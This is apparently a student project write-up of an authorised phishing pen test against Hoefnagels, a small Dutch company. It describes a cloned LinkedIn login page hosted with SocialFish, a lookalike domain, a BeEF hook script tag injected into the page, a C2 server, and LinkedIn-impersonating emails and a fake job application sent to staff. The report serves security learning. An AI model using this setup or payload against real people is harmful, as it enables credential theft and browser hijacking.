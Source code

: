 ```yaml
---
permalink: /group/hoefnagels
layout: single
title: Hoefnagels - phishing campaign
---
```


The goal of our group project is to research what is required from IT-Workz to start providing penetration test as a service. To do that, our
group was tasked with conducting multiple pen tests to select the core requirements.

We have started with establishing contact with Hoefnagels - a company specializing in manufacturing fire safety equipment. The company is quite
old and has been run by the same family since its inception. Since Hoefnagels is a rather small organization, they do not have a designated IT
department. They rely on a 3rd party that set up and does maintenance on their infrastructure.

The scope of the pen test focused on simulating an external threat and one of the goals was to conduct a phishing campaign. I have decided to
pick up this task and work on it together with other group member.

## Prerequisites

Our first goals while getting started were:

- Finding the appropriate technologies for hosting the malicious website.
- Coming up with a plausible scenario, so that the employees might click on the email.

I have decided to focus more on the first one and started researching different phishing tools. We wanted the tooling to give us the possibility
to extract credentials of the victims and to be able to plant a malicious file on their computers.

## Website

Based on our needs, I have decided to use a phishing framework that would aid me with hosting and managing the website. My choice fell on the
tool called [SocialFish](https://github.com/UndeadSec/SocialFish). SocialFish provided an easy way to host custom html websites and attaching some malicious JavaScript, as well as easy to use interface.

Moreover, we decided to use Beef-XSS - a framework which gives the attacker the possibility to control victim's browser, after delivering a
JavaScript payload.

The website had to be accessible from the internet, so I have decided to host it on a DigitalOcean's virtual machine which could handle
SocialFish and run some additional software.

## Initial deployment and HTTPS

| ![First droplet](../../assets/img/phishing/droplet_1.png) |
| First droplet |

We deployed our virtual machine, and I have started setting up the required software:

- SocialFish
- Beef-XSS
- Uncomplicated Firewall (UFW)
- LetsEncrypt bot

### SocialFish and Beef-XSS

SocialFish is an open source, Python software which allows users to maintain and run phishing campaigns. The application is open source, which
allowed me to customize the behavior of the server to tailor it to our needs.

| ![SocialFish](../../assets/img/phishing/socialfish.png) |
| SocialFish |

I downloaded a copy of LinkedIn's log in page, and uploaded it to the virtual machine to use it as a custom phishing page. This allowed me to add a
a script tag which injects a Beef-XSS payload into the victim's browser.

```html
<script src="http://127.0.0.1:3000/hook.js"></script>
```

| ![Beef](../../assets/img/phishing/beef.png) |
| Beef |

Moreover, I used the Let's Encrypt certificate services to increase the legitimacy of my website. That way, the website seemed as if it was an actual
LinkedIn.

### Blocked domain and new website

| ![Blocked domain](../../assets/img/phishing/domain_blocked.png) |
| Blocked domain |

However, few hours after deploying the website, I have discovered that the domain was blocked. Apparently Google's (probably) web crawlers flagged the
website as malicious, since the domain name was `linkedlin.ml` and it was a copy of the linkedin front page. Moreover, I was running Beef-XSS and
SocialFish, which most likely triggered the domain flagging.

This time, we have decided to apply a firewall on our droplet and whitelist Hoefnagels IP address that we obtained from the physical testing, as well as
 our home and school addresses. I have decided to use `UFW` which was preinstalled on that instance of the Ubuntu server.  
_I have blurred out the IP addresses since these are sensitive information_

| ![Firewall rules](../../assets/img/phishing/firewall.png) |
| Firewall rules |

The firewall now only allows the selected IP addresses to the port 443 running the website and port 7443 running a C2 server `covenant` which we planned
to use after compromising victims.

We had two phishing scenarios we planned to execute:

1. Sending a fake job application on their website with a link to our SocialFish server, disguised as a fake LinkedIn page.
2. Sending an email from our `linkedllin.ml` domain that imitates an email from LinkedIn.

For the job application scenario, we decided to apply to the job posting on their website at
_[this url](https://werkenbijhoefnagels.nl/sollicitatieformulier/114/sollicitatieformulier-1ste-Monteur-Meewerkend-Voorman-Montage-buitendienst/)_.
While Georgi created a fake LinkedIn account, I deployed the infrastructure and connected both SocialFish and Beef-XSS together. We sent the job
application and awaited their response.

| ![Landing page](../../assets/img/phishing/linkedllin.ml.png) |
| Landing page |

| ![Profile](../../assets/img/phishing/profile.png) |
| Profile |

While waiting for their answer, we decided to send messages to email addresses that we found during the OSINT phase. We tried deploying an email server
on our DigitalOcean virtual machine using [Mailcow](https://mailcow.email). However, due to security reasons, new accounts are not allowed to use port 25 to send emails.
Therefore, we have decided to use the following address: `noreply.linkedllin.ml@gmail.com`

| ![Phishing email](../../assets/img/phishing/phishing_email.png) |
| Phishing email |

This fake email impersonating LinkedIn emails was sent to the email addresses of the employees. However, majority of the emails were either blocked or non-existent.

| ![Email blocked](../../assets/img/phishing/msg_blocked.png) |
| Email blocked |

### Conclusions

The phishing campaign has had its ups and downs. Not only did we not manage to send mass emails to all employes, nobody was gullible enough to input their credentials
into our fake landing page. This can be broken down into two conclusions:

**Conducting a succesful phishing campaign is a hard task.**

It requires good knowledge of managing IT infrastructure, such as firewalls, ssl certificates, DNS and email servers. Moreover fake domains can be easily targeted by the web
crawlers and flagged as malicious. And on top of that, the goal of these extensive preparations is to trick somebody into inputting their credentials on a fake webstie.

**Hoefnagels employees are phishing conscious**

Throughout the pen test, we kept in contact with the company. Even before we started our campaign, we heard that the employees reported that they started receiving
suspicious emails. The security assesment was kept secret, so the employees didn't fall for an actual attack. Our methods were a bit less successful and a bit more subtle,
but they still didn't fall for that.

All in all, I believe that if our group had more time to prepare for the phishing campaign (month or two), we would have been able to create a trusted email server,
conduct an  extensive OSINT and execute a mass mailing attack.
